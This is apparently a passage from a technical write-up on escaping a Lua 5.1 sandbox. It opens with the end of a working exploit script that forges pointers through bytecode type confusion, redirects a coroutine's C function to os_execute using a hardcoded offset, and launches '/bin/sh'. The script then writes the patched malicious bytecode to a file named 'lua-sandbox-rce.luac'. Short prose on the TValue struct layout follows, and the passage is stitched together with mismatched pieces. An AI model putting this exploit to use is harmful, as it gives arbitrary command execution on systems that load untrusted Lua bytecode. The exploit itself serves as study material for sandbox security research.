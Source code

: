 ```lua
      local b4 = x % 256; x = (x - b4) / 256
      local b5 = x % 256; x = (x - b5) / 256
      local b6 = x % 256; x = (x - b6) / 256
      local b7 = x % 256
      return ub1[b0] .. ub1[b1] .. ub1[b2] .. ub1[b3] .. ub1[b4] .. ub1[b5] .. ub1[b6] .. ub1[b7]
    end
    local function asnum(x)
      for i = x, x, 0 do
        return i * 2^52 * 2^1022
      end
    end
    local function inner()
      co = coroutine.wrap(function() end)
      upval = "widenext".."t".."m".."6!pad6".. ub8(asnum(co) + 32)
      local upval_ptr = ub8(asnum(upval) + 24)
      magic = "AAAABBBB" .. upval_ptr .. upval_ptr
    end
    local i2f = asnum
    local f2i = function(x) return x * 2.^-52 * 2.^-1022 end
    local delta = 13328 -- (char*)os_execute - (char*)luaB_auxwrap -- lua-5.1.4 x86_64
    local arg = '/bin/sh'
    inner()
    local luaB_auxwrap = i2f(magic)
    magic = f2i(luaB_auxwrap + delta)
    co(arg)
  end
  middle()
end

f = io.open("lua-sandbox-rce.luac", "wb")
f:write(string.dump(outer)
  :gsub("\96\128%z\128", "\22\128\0\128") -- remove the FORPREP in asnum
  :gsub("(\100%z%z%z)....", "%1\0\0\0\1", 1) -- in outer, bind magic to the stack slot containing the executing function
)
f:close()
```
--------------------------------------------------------------------------------
The first structure of interest is the `TValue`, which is used to represent Lua values throughout the virtual machine:

```c
struct TValue {
  union {
    void *p;
    double n;
  } value;
  int tt;
};
```

The value of `tt` specifies which member of the union is in use. We're interested in the following values for `tt` and associated layouts of `TValue` on 32-bit Windows:


[IEEE754-1985]: http://en.wikipedia.org/wiki/IEEE_754-1985#Representation_of_numbers
[vstruct]: https://github.com/ToxicFrog/vstruct/blob/master/vstruct/io/f.lua